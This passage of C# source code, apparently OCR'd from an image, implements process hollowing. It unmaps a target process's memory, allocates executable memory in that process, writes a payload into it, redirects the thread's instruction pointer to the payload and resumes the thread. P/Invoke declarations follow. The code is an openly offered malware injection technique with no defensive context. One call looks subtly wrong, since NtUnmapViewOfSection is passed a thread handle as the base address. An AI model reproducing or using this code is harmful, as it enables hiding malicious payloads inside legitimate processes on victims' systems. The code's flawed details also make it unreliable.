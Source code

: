 ```
        }

        // Unmap the memory of the target process
        NtUnmapViewOfSection(pi.hProcess, pi.hThread);

        // Allocate memory within the target process for the payload
        IntPtr baseAddress = VirtualAllocEx(pi.hProcess, IntPtr.Zero, payload.Length, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ExecuteReadWrite);

        // Write the payload into the allocated memory space
        WriteProcessMemory(pi.hProcess, baseAddress, payload, payload.Length, out _);

        // Update the context of the target process to point to the payload's entry point
        CONTEXT context = new CONTEXT();
        context.ContextFlags = CONTEXT_FLAGS.CONTROL;
        GetThreadContext(pi.hThread, ref context);
        context.Rip = (ulong)baseAddress;
        SetThreadContext(pi.hThread, ref context);

        // Resume the target process
        ResumeThread(pi.hThread);

        // Close handles
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }

    [DllImport("kernel32.dll")]
    static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, ProcessCreationFlags dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtUnmapViewOfSection(IntPtr hProcess, IntPtr baseAddress);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, int dwSize, AllocationType flAllocationType, MemoryProtection flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, out int lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern bool GetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [DllImport("kernel32.dll")]
    static extern bool SetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [DllImport("kernel32.dll")]
    static extern uint ResumeThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    struct STARTUPINFO
    {
        public uint cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
```